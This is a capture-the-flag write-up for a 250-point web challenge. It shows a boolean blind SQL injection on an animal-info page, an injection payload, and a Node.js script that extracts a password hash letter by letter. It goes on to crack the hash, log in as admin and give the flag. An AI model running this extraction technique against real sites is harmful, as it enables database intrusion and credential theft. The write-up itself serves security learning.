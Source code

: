 # SELECT error FROM info

> Category: Web

> Points: 250

## Challenge Description

> translated: Petra's site about wild animals worked well before too, but it had a few errors which Petra fixed immediately. Apart from just fixing them, she added some new features. There's a new site "Info" which contains interesting informations about animals, and a page "Log in" on which people that have an account can log in. Currently, only Petra has an account, and she is the only person that can sign in. Even though the site is still unfinished, Petra wanted to share her with you.

> native: Petrina stranica o divljim životinjama je i prije dobro radila, ali je imala nekih grešaka koje je Petra odmah popravila. Osim popravka, dodala je nove mogućnosti. Postoji nova stranica "Info" koja sadrži zanimljive informacije o životinjama i stranica "Ulogiraj se" na kojoj se mogu ulogirati osobe koje imaju korisnički račun. Trenutno, samo Petra ima korisnički račun i ona je jedina osoba koja se može ulogirati.
> Iako je stranica još uvijek nedovršena, Petra bi ju htjela podijeliti s tobom! 

## Analysis

So right away from the title, this task suggests SQL injection.

![decrypted](website.png)

Let's look into that Info page. It sends out a query immediately to ?animal=Lion (?zivotinja=Lav).

Since the value of that request is successful, it gives us a sentence about lions.

![decrypted](analysis.PNG)

Let's try to throw some SQL queries together with this.

We notice that when we do ```info.php?zivotinja=Lav' AND SUBSTRING((SELECT username FROM users LIMIT 1), 1, 1) = 'a``` it returns the same string.

The solution we came up with here isn't ideal by any means, because it is literally a bruteforce JS script, that uses an alphanumeric string and goes letter by letter to grab the password hash and admin name.

We knew from some other tasks that registering on the website makes the password hash encrypted.

Sometimes it was SHA256, and sometimes SHA128, but we decided to brute it like this.

The script we came up with looks a little something like this:

```js
let axios = require('axios');

var alphanumeric = "0123456789abcdefghijklmnoprstuvzxyz";
var str = "Lav' AND SUBSTRING((SELECT password FROM users LIMIT 1), {REPLACE_NUM}, 1) = '";
var hash = "";

async function getHash() {
    for (let i = 1; i < 270; ++i) {
        for (char in alphanumeric) {
            x = alphanumeric[char];
            var uri = str.replace('{REPLACE_NUM}', i.toString());
            let result = await axios({
                url: 'http://chal.hacknite.hr:9105/info.php?zivotinja=' + uri + x,
                method: 'get',
                timeout: 8000
            });
            
            await new Promise(resolve => setTimeout(resolve, 500)); // 500ms timeout because of rules regarding requests

            if (result.data.includes('- Lav je životinjska vrsta iz porodice mačaka.')) {
                hash = hash + x;
                console.log( x + ' - ' + hash);
                break;
            }
        }
        
        if (hash.length != i) {
            break;
        }
    }    
}

getHash();

console.log(hash);
```

The script output looked a little bit like this:

![decrypted](script_password_hash.PNG)

We did the same thing for admin, which was stored in plaintext in the database and whose value was "admin128723".

To decode the hash value we used this website: https://crackstation.net/

The result was plaintext: october

When we logged into the website, this appeared:

![decrypted](solution.png)

## FLAG

> CTF2021[294217488986]